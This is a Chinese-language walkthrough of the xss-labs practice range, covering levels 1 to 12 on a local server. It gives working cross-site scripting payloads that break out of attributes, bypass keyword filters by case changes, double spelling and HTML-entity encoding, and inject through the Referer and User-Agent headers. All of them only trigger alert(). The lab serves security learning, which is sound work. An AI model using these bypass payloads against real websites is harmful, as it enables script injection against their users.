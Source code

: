 



# 靶场地址

+ 靶场地址：[xss-labs](https://gitcode.com/mirrors/do0dl3/xss-labs/tree/master)
+ 首次从靶场地址下载源文件的文件夹到本地
+ 解压到phpstudy的www目录下，名字改为xss-labs
+ 打开浏览器直接进入 http://127.0.0.1/xss-labs/ 即可访问靶场



+ 靶场通关参考地址：[xss-labs靶场实战全通关](https://blog.csdn.net/l2872253606/article/details/125638898?ops_request_misc=%7B%22request%5Fid%22%3A%22170288814616800182767434%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170288814616800182767434&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-125638898-null-null.142^v96^control&utm_term=xss-labs&spm=1018.2226.3001.4187)

![入口](./img/入口.png)



# level 1 

![level1_1](./img/level1_1.png)

首先确定<code>payload</code>的位置，发现如上图所示即为<code>payload</code>的位置



改写<code>payload</code>为：

~~~ javascript
<script>alert("123")</script>
~~~

![level1_2](./img/level1_2.png)

直接编写脚本注入执行即可成功



# level2

+ 首先确定<code>payload</code>的位置，如下图

![level2_1](./img/level2_1.png)



+ 编写<code>payload</code>为：

~~~ javascript
"> <script>alert(1)</script>
~~~

闭合<code>input</code>标签中<code>value</code>值然后再注入即可

![level2_2](./img/level2_2.png)



# level3

+ 首先确定<code>payload</code>的位置，如下，先输入<code>"</code>然后点搜索后发现双引号<code>"</code>被转义为<code>html</code>实体

![level3_1](./img/level3_1.png)



+ 查看源文件<code>level3.php</code>源文件，发现该位置有<code>htmlspecialchars</code>函数

![level3_2](./img/level3_2.png)



+ 查看<code>[php手册](https://www.php.net/manual/zh/function.htmlspecialchars)</code>，如下：

![level3_3](./img/level3_3.PNG)



+ 输入单引号<code>’</code>，发现单引号<code>'</code>不会被转义，用单引号<code>' </code>闭合<code>Input</code>函数

![level3_4](./img/level3_4.PNG)

![level3_5](./img/level3_5.PNG)



+ 输入<code>payload</code>为：<code>' onclick=javascript:alert() /></code>，然后点搜索按钮注入：

![level3_9](./img/level3_9.PNG)



+ 看页面源码发现页面已经被注入，后点击输入框发现注入成功

![level3_10](./img/level3_10.PNG)



# level4

+ 首先找到<code>payload</code>的点，如下图：

![level4_1](./img/level4_1.png)



+ 尝试输入<code>'</code>，发现无效

![level4_2](./img/level4_2.png)



+ 输入<code>"</code>，发现<code>value</code>属性闭合，可和<code>level3</code>一样构造函数<code>onclick</code>，<code>payload</code>为<code>" onclick=alert() "</code>

![level4_3](./img/level4_3.png)



+ 可发现函数已经构造好了，点击一下输入框即可触发函数

![level4_4](./img/level4_4.png)



#  level5

+ 首先查看源代码，发现输入<code>script</code>会被替换为<code>scr_ipt</code>，而<code>on</code>则被替换为<code>o_n</code>，同时将输入的字符转小写然后使用<code>htmlspecialchars</code>函数转换

![level5_1](./img/level5_1.png)



+ 确定<code>payload</code>的点

![level5_2](./img/level5_2.png)



+ 尝试输入<code>"</code>，发现可以将<code>value</code>属性闭合

![level5_3](./img/level5_3.png)

![level5_4](./img/level5_4.png)



+ <code>payload</code>尝试改为<code>"><script>alert()</script></code>,发现可成功注入，但最终注入失败，<code>script</code>标签被转化为<code>scr_ipt</code>

  

  ![level5_5](./img/level5_5.png)

![level5_6](./img/level5_6.png)



+ 由此,<code>on</code>会被转化为<code>o_n</code>，故此不用<code>onclick</code>或者<code>onfocus</code>等其他属性注入.尝试使用<code><a></code>标签，<code>payload</code>改为<code>"><a href="javascript:alert()"></code>，注入成功:

![level5_7](./img/level5_7.png)

![level5_8](./img/level5_8.png)



+ 发现用<code><a></code>标签注入成功，点一下该标签发现效果如下

![level5_9](./img/level5_9.png)



# level6

+ 首先查看代码，发现会将<code>on</code>转化为<code>o_n</code>，<code>script</code>转化为<code>scr_ipt</code>，<code>src</code>转化为<code>sr_c</code>，<code>data</code>转化为<code>da_ta</code>，<code>href</code>转化为<code>hr_ef</code>，同时也会使用<code>htmlspecialchars</code>函数

![level6_1](./img/level6_1.png)



+ 确定<code>payload</code>的点如下：

![level6_2](./img/level6_2.png)



+ 由之前代码审计可知，前几关使用的构造<code>onclick</code>属性及<code><a href></code>标签就不好用了，由此，可尝试大小写构造<code>payload</code>如            <code>    " /><Script>alert()</Script></code>

![level6_3](./img/level6_3.PNG)



+ 注入后，发现成功：

![level6_4](./img/level6_4.PNG)



# level7

+ 首先查看源代码，发现首先会将所有输入字符转为小写，<code>script</code>、<code>on</code>、<code>src</code>、<code>data</code>、<code>href</code>等字符转为空字符串，由此大小写绕过和构造<code>on</code>函数及<code>script</code>标签均不成功了

![level7_1](./img/level7_1.PNG)



+ 确定<code>payload</code>的地方

![level7_2](./img/level7_2.png)



+ 由上面的分析，可使用双拼写绕过，构造<code>payload</code>为<code>"/><sscriptcript>alert()</sscriptcript></code>

![level7_3](./img/level7_3.PNG)



+ 这关甚至还过滤掉了src和data，受不了了，百度找找看其他解法

​		src(source)是一个指向，可以大概理解跟href一样把，只是执行的内容不太一样
​		data一般在<iframe>标签中用来配合date:text/html（貌似解码的含义）



第二关没啥过滤只有一个html实体转义，我们回到第二关测试一下 

![level7_4](./img/level7_4.PNG)

先试一下<code>src</code>，这里配合<code>onerror</code>属性，插入一个<code><img></code>标签，闭合掉双引号跟括号，构造<code>payload</code>

<code>"> <img src='666' onerror=alert()> <"</code>

>  onerror属性是指当图片加载不出来的时候触发js函数，以上面的代码为例，这里因为src指向的是值666，而不是图片的地址和base64编码啥的，就会导致触发alert函数

![level7_5](./img/level7_5.PNG)



当然img标签还有其他姿势

①当鼠标移出图片的时候执行的属性<code>onmouseout </code>

<code>"> <img src=666 onmouseout="alert()"> <"</code>

②当鼠标移动到图片的时候执行的属性<code>onmouseover</code>

<code>"> <img src=1 onmouseover="alert()"> <"</code>



再来看看<code>data</code>的，这里利用<code>iframe</code>标签，插入一个标签<code>data:text/html;base64</code>, 将后面的内容进行<code>base64</code>解码，<code>PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+</code>进行base64解码后是<code><script>alert()</script></code>

<code>"> <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+"> <"</code>


虽然有弹窗，但是没有过关 

![level7_6](./img/level7_6.png)


# level8

+ 首先查看源代码，发现首先会将所有输入字符转为小写，<code>script</code>、<code>on</code>、<code>src</code>、<code>data</code>、<code>href</code>等字符转为空字符串，由此大小写绕过和构造<code>on</code>函数及<code>script</code>标签均不成功了，还会将<code>"</code>双引号转化为其他字符串

![level8_1](./img/level8_1.PNG)



+ 确定<code>payload</code>的位置以及会执行的动作

![level8_2](./img/level8_2.png)



+ 由此，可利用<code>href</code>隐藏属性自动触发<code>Unicode</code>解码插入一段<code>javascript</code>伪代码<code>javascipt:alert()</code>，可利用[在线Unicode编码解码工具](https://www.matools.com/code-convert-unicode)进行<code>Unicode</code>编码，将<code>javascript:alert()</code>转化为

~~~ javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;
~~~



![level8_3](./img/level8_3.png)



+ 注入后点击友情链接即可触发<code>xss</code>注入

![level8_4](./img/level8_4.png)



# level9

+ 首先代码审计，查看源代码

![level9_1](./img/level9_1.PNG)



+ 根据代码审计，false等于false时(传入值没有http://)会执行if，为防止false===false需要向传入的值里加http://并用注释符注释掉否则执行不了无法弹窗，让函数strpos返回一个数字，构造payload

~~~ javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;/* http:// */
~~~



+ 注入后点击对应的<b>友情链接</b>即可弹出相应的结果

![level9_2](./img/level9_2.png)



+ 本关小结：插入指定内容（本关是http://）绕过检测，再将指定内容用注释符注释掉即可



# level10

+ 首先测一下关键字

~~~ shell
" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level10_1](./img/level10_1.PNG)

![level10_2](./img/level10_2.PNG)

注入后发现所有的注入都被实体化了



+ 代码审计，查看一下项目源代码

![level10_3](./img/level10_3.PNG)

好吧，原来还有其他隐藏的传参方法，学到了，这里是get传参t_sort，并过滤掉了<>号，不能闭合插入标签，但是我们还能用onfocus事件，因为这里输入框被隐藏了，需要添加type="text"，构造payload



+ 注入下面的<code>payload</code>：

~~~ shell
?t_sort=" onclick=javascript:alert() type="text
~~~

![level10_4](./img/level10_4.PNG)



+ 注入成功，点击一下输入框会触发脚本执行

![level10_5](./img/level10_5.PNG)



+ **本关小结**：根据源码猜解传参的参数名，隐藏的input标签可以插入type="text"显示



# level11

![level11_1](./img/level11_1.png)

<code><input></code>标签有四个值，都做了隐藏处理，不难看出第四个名为t_ref的<code><input></code>标签是`http`头`referer`的参数（就是由啥地址转跳到这里的，`http`头的`referer`会记录）。先简单测试验证下前面三个标签名，GET与POST传参都试一下



GET传参：

~~~ shell
?t_link=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;&t_history=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;&t_sort=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level11_2](./img/level11_2.png)

可看到，没有赋值成功



试试POST传参：

~~~ shell
t_link=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>&t_history=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>&t_sort=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>
~~~

![level11_3](./img/level11_3.png)

POST传参也没用(由于没有办法POST传参所以这里没有测试)



考虑<code>referer</code>头，使用<code>burpsuite</code>抓包下然后添加<code>http</code>头的<code>referer</code>

~~~ shell
Referer: " sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level11_4](./img/level11_4.png)



可看到成功注入

![level11_5](./img/level11_5.png)



查看源码

![level11_6](./img/level11_6.png)

对比发现，把大于小于号><给删掉了，但是我们还能用onfocus，构造一个http头

~~~ shell
Referer: " onclick=javascript:alert() type="text
~~~

![level11_7](./img/level11_7.png)



发现注入成功

![level11_8](./img/level11_8.png)



点击下文本框，弹出弹框

![level11_9](./img/level11_9.png)



再看下源码

![level11_10](./img/level11_10.png)

跟猜想一样，这题还有GET传参，但还有<code>htmlspecialchars()</code>函数在无法闭合双引号 



 **本关小结**：考虑一下http头传值，本关是referer，但接下来也有可能是其他头，如Cookie等



# level12

![level12_1](./img/level12_1.png)

第四个参数肯定是User-Agent头，用burpsuite抓包一下，将User-Agent头修改为测试代码

~~~ shell
" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level12_3](./img/level12_3.png)

![level12_4](./img/level12_4.png)



可发现成功注入

![level12_5](./img/level12_5.png)



构造想要构造的<code>User-Agent</code>头：

~~~ shell
User-Agent:" onclick=javascript:alert() type="text
~~~

![level12_6](./img/level12_6.png)



发现注入成功：

![level12_7](./img/level12_7.png)



点一下方框，触发函数：

![level12_8](./img/level12_8.png)



# level13



[xss-labs靶场实战全通关详细过程（xss靶场详解）-CSDN博客](https://blog.csdn.net/l2872253606/article/details/125638898?ops_request_misc={"request_id"%3A"170288814616800182767434"%2C"scm"%3A"20140713.130102334.."}&request_id=170288814616800182767434&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-125638898-null-null.142^v96^control&utm_term=xss-labs&spm=1018.2226.3001.4187)
